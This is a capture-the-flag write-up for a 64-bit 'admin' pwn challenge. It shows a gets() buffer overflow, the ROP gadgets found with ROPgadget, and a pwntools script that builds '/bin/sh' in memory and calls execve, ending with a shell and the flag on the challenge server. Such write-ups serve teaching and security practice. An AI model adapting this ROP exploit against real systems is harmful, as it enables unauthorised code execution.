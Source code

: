 # Admin - 64bit pwn
we are given a staticly linked 64bit executable with NX enabled but no PIE or stack canary.   
```console
root@kali:~/CTF/jctf/admin# ./admin 
Username: 
admin
Welcome admin
```
we immediately see a buffer overflow.     
```console
root@kali:~/CTF/jctf/admin# python -c "print 'A'*500"| ./admin 
Username: 
Bye AAAAAAAAAAAA...
Segmentation fault
```
after analysing the code we can see why that is.
(the function names don't appear because of the static linking but it's easy to guess their names).                

```asm
lea     rax, [rbp+input]
mov     rdi, rax
mov     eax, 0
call    gets ; a call to gets = BOF
lea     rax, [rbp+input]
lea     rsi, aAdmin     
mov     rdi, rax
call    strcmp
test    eax, eax
jnz     short loc_400B97
```
ok. a rop chain is needed to gain code execution.         
using ROPgadget we can find a syscall gadget.        
```nasm
0x000000000040123c : syscall
```
but no "/bin/sh" in the binary.            
this requires some write gadget.                  
this is the one I chose.         
```nasm
0x000000000048d102 : mov dword ptr [rax], edx ; ret
```
we pick somewhere in a rw section to place our string and craft a rop chain using some more gadgets:           
```nasm
0x000000000044bce9 : pop rdx ; pop rsi ; ret
0x0000000000415544 : pop rax ; ret
0x0000000000400686 : pop rdi ; ret
```
(full code is in exploit.py)
```python
str_dest=0x006b6208  # someplace in a rw section

exploit=b'A'*72 # padding
exploit+=p64(SET_RDX_RSI)
exploit+=b'/bin\x00\x00\x00\x00' # set rdx to start of string
exploit+=p64(0x41414141)
exploit+=p64(SET_RAX)
exploit+=p64(str_dest) # rax to set addr
exploit+=p64(WRITE_EDX_RAX) # write mem
exploit+=p64(SET_RDX_RSI)
exploit+=b'/sh\x00\x00\x00\x00\x00' # last part of string...
exploit+=p64(0x41414141)
exploit+=p64(SET_RAX)
exploit+=p64(str_dest+4)
exploit+=p64(WRITE_EDX_RAX) # full string written


exploit+=p64(SET_RDX_RSI) # set up params...
exploit+=p64(0x0)
exploit+=p64(0x0)
exploit+=p64(SET_RDI)
exploit+=p64(str_dest)
exploit+=p64(SET_RAX)
exploit+=chr(0x3b)+"\x00"*7 # rax=0x3b
exploit+=p64(SYSCALL) # make the syscall

r.sendline(exploit)
r.interactive()
```
and...             
nice.
```console
root@kali:~/CTF/jctf/admin# python exploit.py 
[+] Opening connection to 35.186.153.116 on port 7002: Done
[*] Switching to interactive mode
$ ls
admin
bin
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
IJCTF{W3lc0m3_4g4in_d34r_AADMMIINN!!!}
$  
```
